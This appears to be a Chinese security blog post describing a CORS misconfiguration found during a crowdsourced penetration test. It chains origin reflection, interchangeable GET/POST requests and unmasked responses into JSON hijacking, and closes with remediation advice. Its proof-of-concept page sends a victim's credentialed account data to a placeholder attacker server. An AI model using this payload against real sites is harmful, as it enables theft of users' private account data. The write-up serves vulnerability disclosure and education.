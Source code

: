 ```yaml
---
layout:     post
title:      "记一次绕过CORS实现通用型json劫持经历"
subtitle:   " \"安全研究\""
date:       2018-01-27 11:35:25
author:     "y1r0nz"
header-img: "img/hack.jpg"
tags:
    - 安全研究
    - 渗透经历
---
```




#### 0x01 前言

 基于前端的安全访问控制在如今的安全问题中依然是影响力比较大的问题，针对网页的xss，csrf等安全漏洞也是大多数运营商比较头疼的问题。面对这些安全风险，大多数互联网金融机构站点对访问服务端的用户采取了相应的跨域访问控制的措施，比如httponly、指定access-control-origin-allow合法域名访问名单，从而从用户端到服务端基本实现CSP。但是一些机构在实施这些措施的过程中并没有严格按照访问控制策略进行实现，导致一些同源策略能够比较轻松的绕过，使得恶意用户能够利用这种方式进一步窃取合法用户的敏感信息、造成更大规模的钓鱼事件，严重影响了运营商的正常运作。

恰好这几天项目组有个众测的项目，在还没有深入对平台进行安全测试之前，结合之前freebuf上有人发的一篇CORS绕过的[文章](http://www.freebuf.com/news/160917.html)，测了下这个平台有关跨域的安全访问控制的策略，发现的问题还确实很多。之前这个平台做的访问控制就像一个纸老虎，根本起不了任何作用，这让我感到一丝的不安。

#### 0x02 几个小问题

* POST与GET请求可以任意相互转换

  在没有发现更大的影响规模的时候，这个问题其实很鸡肋，领导和开发可能根本不会去重视。但是，这个问题所能够延伸出来的其它比较严重的安全问题却多种多样。举一个例子：假如攻击者可以随意转换get和post请求数据，已经对csrf这种跨站伪造漏洞大开了方便之门，他们无需花更多的经历去诱使受害用户提交post请求，只需要在页面标签中引入src属性，便能够轻松对受害用户账户和进行攻击。

  ![post_get1](https://github.com/yangrz/blog/raw/gh-pages/img/post_get1.png)

  ![post_get2](https://github.com/yangrz/blog/raw/gh-pages/img/post_get2.png)

* 非法控制Access-Control-Origin-Allow返回头

  Access-Control-Origin-Allow返回消息头是用来严格控制能够操纵请求的域名，请求所返回的信息只能在指定的合法域名中传输。很多情况下，大多数开发人员可能并不理解这个属性值的具体目的，直接从请求的origin属性中读取这个域名，使得服务端误以为这就是合法域名。另外，安全等级比较高的应用服务虽然严格控制了Access-Control-Origin-Allow返回头，但是开发人员并没有验证origin的合法性和有效性，攻击者仍然可以通过操纵origin头来绕过访问控制。

  ![access_control_origin_allow1](https://github.com/yangrz/blog/raw/gh-pages/img/access_control_origin_allow1.png)

  ![access_control_origin_allow2](https://github.com/yangrz/blog/raw/gh-pages/img/access_control_origin_allow2.png))

* 返回体敏感信息未加密

  多数服务端对返回的数据没有进行脱敏控制，攻击者通过跨域带外查询的方式一旦窃取这些数据将严重影响用户隐私信息。

  ![minganxinxi](https://github.com/yangrz/blog/raw/gh-pages/img/minganxinxi.png)

#### 0x03 Combo利用，实现json劫持

在分析完应用本身存在的漏洞利用环境之后，真正实现json劫持攻击的还需要以下两个现实条件：

* 受害者登陆受害网站平台，拥有查询账户信息权限
* 攻击者能够欺骗受害者访问伪造页面

拥有以上的所有条件，我们就可以完全实现窃取受害者账户信息了。

1. 在观察数据包交互的过程中，我发现请求体中大量的查询账户信息操作，而且这些操作都存在上节所描述的三个基本问题。验证就不放图了，上节都有。

2. 在攻击者远程服务器上精心伪造页面，页面代码模板可能是按照如下代码去实现的：

   ```javascript
   <!DOCTYPE html>
   <html>
   <head><title>xxxx CORs Poc</title></head>
   <body>
   <center>
   <h2>xxxx CORs POC</h2>
   <button type="button" onclick="cors()">Poc</button>
   </div>
   <script>
     function cors(){
       var xhttp = new XMLHttpRequest();
       xhttp.onreadystatechange = function() {
         if(this.readyState == 4 && this.status == 200) 
         {
           document.location='http://你的服务器地址:远程监听端口号?'+escape(this.responseText);
         }
       };
       xhttp.open('GET','https://你发现的查询敏感json数据的get请求接口',true);
       xhttp.withCredentials = true;
       xhttp.send();
     }
   </script>
   ```

3. 诱使受害用户访问伪造页面，在远程服务器就可以监听用户访问请求

   ![nc_listening](https://github.com/yangrz/blog/raw/gh-pages/img/nc_listening.png)

#### 0x04 修复建议&总结

针对json劫持这一类问题，可能在网站平台建立初期特别容易出现，这要求开发人员深入理解跨域和同源策略，并能够采取多样的手段避免这种问题发生。在通常情况，不考虑具体业务情况下，有如下最有效几种通用修复方案：

1. 在开启access-control-origin-allow消息头情况下，强烈建议在服务端验证origin有效性与合法性。
2. 针对每次查询请求添加随机token值，并在服务端进行有效验证，防止查询敏感信息请求的滥用。
3. 在必要情况下使用验证码查询这种方式，但是会影响用户体验。
4. 开启referer验证；服务端可以验证请求referer有效性，防止请求伪造。

总而言之，我们虽然不能够保证我们的应用服务百分之百的绝对安全，但是能够最大限度的针对具体业务免受安全威胁是目前大部分企业或者运营商建立应用服务安全架构的首要目标。

#### 0x05 相关文献

1. [http://www.freebuf.com/news/160917.html](http://www.freebuf.com/news/160917.html) 《挖洞经验 \| 看我如何利用两个漏洞实现雅虎邮箱通讯录信息获取》
2. [http://www.freebuf.com/articles/web/158529.html](http://www.freebuf.com/articles/web/158529.html) 《挖洞经验 \| 看我如何绕过Yahoo！View的CORS限制策略
3. [http://www.ruanyifeng.com/blog/2016/04/cors.html](http://www.ruanyifeng.com/blog/2016/04/cors.html) 《跨域资源共享 CORS 详解》
4. [http://www.vuln.cn/6773](http://www.vuln.cn/6773) 《利用JSONP进行水坑攻击》
